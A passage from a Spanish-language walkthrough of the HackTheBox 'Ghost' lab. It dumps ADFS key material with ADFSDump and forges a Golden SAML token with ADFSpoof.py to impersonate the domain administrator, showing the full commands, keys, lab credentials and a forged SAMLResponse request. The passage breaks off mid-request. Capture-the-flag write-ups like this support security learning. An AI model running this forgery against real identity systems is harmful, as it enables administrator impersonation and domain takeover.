docker run --rm -v "$PWD":/src -w /src mono msbuild /p:Configuration=Release

cd ADFSDump/bin/Release
```

<p align="center">

</p>

Este archivo **ADFSDump.exe** tiene que estar en nuestra maquina del usuario **adfs_gmsa$**

```
upload ADFSDump.exe
.\ADFSDump.exe
```

> Private Key: 8D-AC-A4-90-70-2B-3F-D6-08-D5-BC-35-A9-84-87-56-D2-FA-3B-7B-74-13-A3-C6-2C-58-A6-F4-58-FB-9D-A1

> Token cifrado: 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

Lo guardamos con el nombre **token_cifrado**

Luego usaremos la herramienta [ADFSpoof.py](https://github.com/mandiant/ADFSpoof) en nuestra kali

> `ADFSSpoof.py` se utiliza en la fase de _ejecución/suplantación_ para llevar a cabo la técnica de **Golden SAML**

Se realizará el siguiente comando para convertir la **Private Key** en formato binario

```
echo "8D-AC-A4-90-70-2B-3F-D6-08-D5-BC-35-A9-84-87-56-D2-FA-3B-7B-74-13-A3-C6-2C-58-A6-F4-58-FB-9D-A1" | tr -d "-" | xxd -r -p | tee private_key.bin | xxd
```

La clave de firma de **tokens cifrado** solo necesita decodificación base64:

```
echo "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" | base64 -d > encrypted_token_siging_key.bin
```

Una vez realizado, lanzaremos el comando **ADFSpoof.py** 

```
faketime "$(ntpdate -q ghost.htb | cut -d ' ' -f 1,2)" python3 ADFSpoof.py -b encrypted_token_siging_key.bin private_key.bin -s core.ghost.htb saml2 --endpoint https://core.ghost.htb:8443/adfs/saml/postResponse --nameidformat urn:oasis:names:tc:SAML:2.0:nameid-format:transient --nameid 'GHOST\administrator' --rpidentifier https://core.ghost.htb:8443 --assertions 'GHOST\administratorAdministrator'
```

Obtendremos la siguiente salida:

```
PHNhbWxwOlJlc3BvbnNlIHhtbG5zOnNhbWxwPSJ1cm46b2FzaXM6bmFtZXM6dGM6U0FNTDoyLjA6cHJvdG9jb2wiIElEPSJfS0VFM1lBIiBWZXJzaW9uPSIyLjAiIElzc3VlSW5zdGFudD0iMjAyNS0wMy0zMVQxNTo1MToxOS4wMDBaIiBEZXN0aW5hdGlvbj0iaHR0cHM6Ly9jb3JlLmdob3N0Lmh0Yjo4NDQzL2FkZnMvc2FtbC9wb3N0UmVzcG9uc2UiIENvbnNlbnQ9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDpjb25zZW50OnVuc3BlY2lmaWVkIj48SXNzdWVyIHhtbG5zPSJ1cm46b2FzaXM6bmFtZXM6dGM6U0FNTDoyLjA6YXNzZXJ0aW9uIj5odHRwOi8vY29yZS5naG9zdC5odGIvYWRmcy9zZXJ2aWNlcy90cnVzdDwvSXNzdWVyPjxzYW1scDpTdGF0dXM%2BPHNhbWxwOlN0YXR1c0NvZGUgVmFsdWU9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDpzdGF0dXM6U3VjY2VzcyIvPjwvc2FtbHA6U3RhdHVzPjxBc3NlcnRpb24geG1sbnM9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDphc3NlcnRpb24iIElEPSJfQ0VNMjlYIiBJc3N1ZUluc3RhbnQ9IjIwMjUtMDMtMzFUMTU6NTE6MTkuMDAwWiIgVmVyc2lvbj0iMi4wIj48SXNzdWVyPmh0dHA6Ly9jb3JlLmdob3N0Lmh0Yi9hZGZzL3NlcnZpY2VzL3RydXN0PC9Jc3N1ZXI%2BPGRzOlNpZ25hdHVyZSB4bWxuczpkcz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC8wOS94bWxkc2lnIyI%2BPGRzOlNpZ25lZEluZm8%2BPGRzOkNhbm9uaWNhbGl6YXRpb25NZXRob2QgQWxnb3JpdGhtPSJodHRwOi8vd3d3LnczLm9yZy8yMDAxLzEwL3htbC1leGMtYzE0biMiLz48ZHM6U2lnbmF0dXJlTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8wNC94bWxkc2lnLW1vcmUjcnNhLXNoYTI1NiIvPjxkczpSZWZlcmVuY2UgVVJJPSIjX0NFTTI5WCI%2BPGRzOlRyYW5zZm9ybXM%2BPGRzOlRyYW5zZm9ybSBBbGdvcml0aG09Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvMDkveG1sZHNpZyNlbnZlbG9wZWQtc2lnbmF0dXJlIi8%2BPGRzOlRyYW5zZm9ybSBBbGdvcml0aG09Imh0dHA6Ly93d3cudzMub3JnLzIwMDEvMTAveG1sLWV4Yy1jMTRuIyIvPjwvZHM6VHJhbnNmb3Jtcz48ZHM6RGlnZXN0TWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8wNC94bWxlbmMjc2hhMjU2Ii8%2BPGRzOkRpZ2VzdFZhbHVlPi9JRWRvQkU3ZkJKMjVJQmVzSzJiL2FWRnFVeGdpSHNhZWF4VzBVK2E1L3c9PC9kczpEaWdlc3RWYWx1ZT48L2RzOlJlZmVyZW5jZT48L2RzOlNpZ25lZEluZm8%2BPGRzOlNpZ25hdHVyZVZhbHVlPmtxTzZnamVvaHFYYW1hMzFrMHJQMGJxNVdNYjlvaENjbTVjU04wVi85VGpJVGYvS1l0WE9SQ1dvOURueDBLNXk2ZzdrS3RtZno4NXNTR21tZmRVSVJCVlFQTG9maHkyRXlyS21YQTYxUkIvRGVXeXRCUitGNFU0SFdTU1REQUdLRWdJckNsL3QxQVp4Z1JRODIreUp6V29ibGZwZGNsdUlyTExXZy9xbTZROXQ0REJFdlRFYlNVWnVwbkxTMFh5aTFUSFZkKzFhVlJJYndJVC94S2FveXhMeDJkcG0ra2VwQm5VZ0g2RzdJT0ZwQUxaMVhyeXZRRTZqQmpwZnoxbHdyTHYybGt6NTg4M202ZllobmdkNDlkY0ZMbVFpUmJDSUVOdnVGYmZSLzZUZXM4SFNUem5FRXBvM1U1cG15YjVXZDF0dHEyeTA0c1FtSHBPQUNXbnlDZ0lRMnAvSGU1dmp4OU1RSThGbUwvbEIrdmE5Zm52VFo5VjhtTlZreUdwWm44amZkRVgrMXM3TlFlczcwSysrWGZWcFlNOWM5ZDc4NmwwNWp5K0ZnaVhjMm1waUg4OVFQNkNhc2RZdW8vSThiRG1NZTVGc25jSWh5cEl2bEl1MlhGWlRqSDlRVFNDSTdFa2JsdVBTQzl6RnFUVWdkVWdqY0RicVJTdUNYSXF1STF0WVdsYjYxRU9EOVNVSkh1Vm9wWGVwc1E1VHZTZWQ2UlNwWllFbzBUSGMyeHFBTmhWSW9LOVpsZDJyYlAwSnErK1didCttRytKSXNOamFsb0o2M0kwSXZseVIvN2xCdXM4KzhNRGhya28wYk9Gbm10R1dLbVR4cWh2YVIwNHFPYkNDWVYwL2E5TnprMU9Ea0RkT2FUZHE2MnFNNmg0ZWptVUpiWFhuelNRPTwvZHM6U2lnbmF0dXJlVmFsdWU%2BPGRzOktleUluZm8%2BPGRzOlg1MDlEYXRhPjxkczpYNTA5Q2VydGlmaWNhdGU%2BTUlJRTVqQ0NBczZnQXdJQkFnSVFKRmNXd015YlJhNU80K1dPNXRXb0dUQU5CZ2txaGtpRzl3MEJBUXNGQURBdU1Td3dLZ1lEVlFRREV5TkJSRVpUSUZOcFoyNXBibWNnTFNCbVpXUmxjbUYwYVc5dUxtZG9iM04wTG1oMFlqQWdGdzB5TkRBMk1UZ3hOakUzTVRCYUdBOHlNVEEwTURVek1ERTJNVGN4TUZvd0xqRXNNQ29HQTFVRUF4TWpRVVJHVXlCVGFXZHVhVzVuSUMwZ1ptVmtaWEpoZEdsdmJpNW5hRzl6ZEM1b2RHSXdnZ0lpTUEwR0NTcUdTSWIzRFFFQkFRVUFBNElDRHdBd2dnSUtBb0lDQVFDK0FBT0lmRXF0bFljbjE1M0wxQnZHUWdEeVhUbll3VFJ6c0s1OSt6RTF6Z0dLTzlONW5iOEZrK2RhS3BXTFFhaUg3b0RIYWVudy9RYXhCZzVxZGVEWW1EM296OEt5YUExeWdZQnJ6bTR3VzdGZjg3cks5RmU1SjUvaDZXOWc3NDloNUJJcVBRT3AwbDZzMXJmdW1PY2NONHliVzk1RVdOTDB2dVFYdkMrS1E0RDRnTVh1OG1DR3B4dHZJTDhpbE50SnVJRzNPUllTS2hSYWwweXlKZU9oRzR4Z2xyWkpGMThwOXdobkU2b21nZ21BNm4yc2hEay90dlRZamlpNWU3L2ljV1RLa3JzTUNwYUtVTms3bXhkTVpoUWFiN1NtZktyWk40cFJEN2RWZzV6ekl5RDdVelM5Q0hMQzZ4TnpxL1owaHVhT2FKaE9TZEpTZ2F0L2JzRzhuYngxOUhELyt5cFc5SjJMdE5GdWdkV3RtVUJXRE9RQllWaEI4U2c0VkVHZ1A5anlJdEhIMmJ6c0RmalJkSjhFMXVOSldQL2tRQTErd1lsT2RkTHFVM2IwSXNDdmxBOEV2WVcwVDFSc3U3N280eC93MGdXYjBvUVBFSXo3ejk3M2I0OTZ3cVF0M0RueWZlTzNsWFhmWk5jdmFqNUtDUDJUdEdCK0tzaEY5cGtJUHhxN0YyZ01oN1FqeGpSSHNBMjlWOGpGbzlnTEQ3a1BWaWNhSVVkc2dpRkhuWVFGMTRhNTJKdFIxVjVpTitoOTVKa3V1RXFRV0RCSEF2UEVCQlprRVpIKzV5VCthQ0ZYWFgrQnBQdDNRR2pZTGVKVThDRnNNdG44UVZMWXZMZGNWUnNVblJoL1dIaVh3Sk9PRVZFQ2E5dzcveVZuaGFsQ05CeDFFL2w0S1FJREFRQUJNQTBHQ1NxR1NJYjNEUUVCQ3dVQUE0SUNBUUFXWUtaVzNjRENCTzZkVDN5ZmwzT2N1eXAxTFZLVkkrOXBGeC9iYldwV2pTZGg2YjM5TFR4eEQ3RllVdGh1V1BaM3JGNEcrRmRNRkhIQ3gzWXBFbVVGbkVMS3NYcWhaOTg5QVg1OEkvM21iZlVsS1dlSVBMU0xrcCtlUlpvTUprdDdrMS9LWHREYXNPUW4wTnNnWUVvd0xCSW1NQ011OXV1am5DbUZPd0hQL0lCaGdZUU1IaDQ2QnpTWFdQM2k4VlhiclJ0RHBvL2MvL09GSmhHbW5uRjhaUG1pNHh0emZTREJwVktxd1ZMcDc4Q2d1TXhqUWQrYmRVYjQ1NTg4Wko0Q0xzUGRSUXAzMFdKMS9DTklhZW52Sld0QTJHNUladzVVMEVXQ0pMb1lKV0ZzOWl5T2ExL3k1NXJ1VzZKOGxJR0Qwd21vRWVDbDlDSDFFZDRkelVkVVhmMU1CQ1lQM1g5MmlheHpVRTB1cEdkLzFRbzZIVHl5T2xXdUF3cmtUMlZIRUxLVlpLT2c4K2RseTk3Z3laSWZVdFF3SWtQd05sOHZvMDRjZmoraHpPdkJ6UEtBQVloMTROTGd2ZUFJL0RxTW5PME9LTyt3MUhCS3c2NE5CQ244Z29hekYrUHVGZlVPMHlOSEZMNGt4TXBjYXA2aWV2NmczQlhDU0R3ZnFUVU9FdUVzN3E5b1lLZ3EycW5OVk9USWhoSW5NWEJ6RW02aVAxM2pmdU9vWEpkUEFuRVVYbjR5NXl3QTk3cnRiR25aRVB5eDFmMUVrWC9oYnFCUDR2b2d2OWtsdGFVRUVWWGtTK2hQcHhabWV4Q05yQkQxcTdHSi81MGViWWxDMENldjh3Nk1zOHRNME9ydnBwR1lsV3J0UHdldkV2ZmlSa3dCTEc3RU1BbkxTdz09PC9kczpYNTA5Q2VydGlmaWNhdGU%2BPC9kczpYNTA5RGF0YT48L2RzOktleUluZm8%2BPC9kczpTaWduYXR1cmU%2BPFN1YmplY3Q%2BPE5hbWVJRCBGb3JtYXQ9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjEuMTpuYW1laWQtZm9ybWF0OmVtYWlsQWRkcmVzcyI%2BQWRtaW5pc3RyYXRvckBnaG9zdC5odGI8L05hbWVJRD48U3ViamVjdENvbmZpcm1hdGlvbiBNZXRob2Q9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDpjbTpiZWFyZXIiPjxTdWJqZWN0Q29uZmlybWF0aW9uRGF0YSBOb3RPbk9yQWZ0ZXI9IjIwMjUtMDMtMzFUMTU6NTY6MTkuMDAwWiIgUmVjaXBpZW50PSJodHRwczovL2NvcmUuZ2hvc3QuaHRiOjg0NDMvYWRmcy9zYW1sL3Bvc3RSZXNwb25zZSIvPjwvU3ViamVjdENvbmZpcm1hdGlvbj48L1N1YmplY3Q%2BPENvbmRpdGlvbnMgTm90QmVmb3JlPSIyMDI1LTAzLTMxVDE1OjUxOjE5LjAwMFoiIE5vdE9uT3JBZnRlcj0iMjAyNS0wMy0zMVQxNjo1MToxOS4wMDBaIj48QXVkaWVuY2VSZXN0cmljdGlvbj48QXVkaWVuY2U%2BaHR0cHM6Ly9jb3JlLmdob3N0Lmh0Yjo4NDQzPC9BdWRpZW5jZT48L0F1ZGllbmNlUmVzdHJpY3Rpb24%2BPC9Db25kaXRpb25zPjxBdHRyaWJ1dGVTdGF0ZW1lbnQ%2BPEF0dHJpYnV0ZSBOYW1lPSJodHRwOi8vc2NoZW1hcy54bWxzb2FwLm9yZy93cy8yMDA1LzA1L2lkZW50aXR5L2NsYWltcy91cG4iPjxBdHRyaWJ1dGVWYWx1ZT5BZG1pbmlzdHJhdG9yQGdob3N0Lmh0YjwvQXR0cmlidXRlVmFsdWU%2BPC9BdHRyaWJ1dGU%2BPEF0dHJpYnV0ZSBOYW1lPSJodHRwOi8vc2NoZW1hcy54bWxzb2FwLm9yZy9jbGFpbXMvQ29tbW9uTmFtZSI%2BPEF0dHJpYnV0ZVZhbHVlPkFkbWluaXN0cmF0b3I8L0F0dHJpYnV0ZVZhbHVlPjwvQXR0cmlidXRlPjwvQXR0cmlidXRlU3RhdGVtZW50PjxBdXRoblN0YXRlbWVudCBBdXRobkluc3RhbnQ9IjIwMjUtMDMtMzFUMTU6NTE6MTguNTAwWiIgU2Vzc2lvbkluZGV4PSJfQ0VNMjlYIj48QXV0aG5Db250ZXh0PjxBdXRobkNvbnRleHRDbGFzc1JlZj51cm46b2FzaXM6bmFtZXM6dGM6U0FNTDoyLjA6YWM6Y2xhc3NlczpQYXNzd29yZFByb3RlY3RlZFRyYW5zcG9ydDwvQXV0aG5Db250ZXh0Q2xhc3NSZWY%2BPC9BdXRobkNvbnRleHQ%2BPC9BdXRoblN0YXRlbWVudD48L0Fzc2VydGlvbj48L3NhbWxwOlJlc3BvbnNlPg%3D%3D
```

### Shell como mssqlserver en PRIMARY

```
https://core.ghost.htb:8443
```

Credenciales --> `justin.bradley@ghost.htb`:`Qwertyuiop1234$$`

<p align="center">

</p>

Una vez logueado capturamos esta pagina `https://core.ghost.htb:8443/adfs/saml/postResponse`

En el request copiamos lo siguiente:

```
POST /adfs/saml/postResponse HTTP/1.1
Host: core.ghost.htb:8443
Cookie: connect.sid=s%3ArBwoNoIEWy3cNLuS7GLnxUSguQQAQ_Ba.pM%2B7O7wNE%2F8BtNB4lTKRADVkPF%2B5cVk2sCtbqLnREd4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
Content-Length: 6584
Content-Type: application/x-www-form-urlencoded

SAMLResponse=PHNhbWxwOlJlc3BvbnNlIHhtbG5zOnNhbWxwPSJ1cm46b2FzaXM6bmFtZXM6dGM6U0FNTDoyLjA6cHJvdG9jb2wiIElEPSJfS0VFM1lBIiBWZXJzaW9uPSIyLjAiIElzc3VlSW5zdGFudD0iMjAyNS0wMy0zMVQxNTo1MToxOS4wMDBaIiBEZXN0aW5hdGlvbj0iaHR0cHM6Ly9jb3JlLmdob3N0Lmh0Yjo4NDQzL2FkZnMvc2FtbC9wb3N0UmVzcG9uc2UiIENvbnNlbnQ9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDpjb25zZW50OnVuc3BlY2lmaWVkIj48SXNzdWVyIHhtbG5zPSJ1cm46b2FzaXM6bmFtZXM6dGM6U0FNTDoyLjA6YXNzZXJ0aW9uIj5odHRwOi8vY29yZS5naG9zdC5odGIvYWRmcy9zZXJ2aWNlcy90cnVzdDwvSXNzdWVyPjxzYW1scDpTdGF0dXM%2BPHNhbWxwOlN0YXR1c0NvZGUgVmFsdWU9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDpzdGF0dXM6U3VjY2VzcyIvP